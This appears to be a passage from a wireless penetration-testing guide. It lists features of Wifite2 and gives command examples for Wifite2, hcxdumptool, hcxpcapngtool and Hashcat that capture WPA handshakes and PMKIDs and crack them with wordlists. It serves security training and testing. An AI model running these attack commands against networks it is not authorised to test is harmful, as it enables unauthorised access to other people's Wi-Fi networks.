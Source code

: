 **Key Features**:

·        **Automated WPA/WEP Attacks**: Streamlined attack workflow

·        **PMKID Support**: Automated PMKID capture and cracking

·        **Handshake Capture**: Enhanced handshake capture with multiple techniques

·        **Modern Protocol Support**: Updated for current wireless standards[[19\|19]](#fn19)

**Wifite2 Usage Examples**:

# Automated attack against all networks  
sudo python3 wifite.py  
  
# Target specific network with enhanced options  
sudo python3 wifite.py --bssid AA:BB:CC:DD:EE:FF --pmkid --wpa --dict /usr/share/wordlists/rockyou.txt  
  
# WPS attack mode  
sudo python3 wifite.py --wps --pixie --timeout 3600  
  

**Specialized Attack Tools**

**hcxdumptool and hcxtools - PMKID Specialists**:

# Comprehensive PMKID and handshake capture  
hcxdumptool -i wlan0mon -o capture.pcapng --enable_status=1  
  
# Convert to various formats  
hcxpcapngtool -o hashes.hc22000 -E essids.txt capture.pcapng  
  
# Extract PMKID specifically   
hcxpcapngtool -k pmkid.txt capture.pcapng  
  

**Hashcat - GPU-Accelerated Cracking**:

# WPA2 handshake cracking (22000 mode)  
hashcat -m 22000 -a 0 hashes.hc22000 rockyou.txt  
  
# PMKID cracking (16800 mode)  
hashcat -m 16800 -a 0 pmkid.txt rockyou.txt  
  
# Advanced rule-based attacks  
hashcat -m 22000 hashes.hc22000 base_wordlist.txt -r rules/best64.rule -O  
  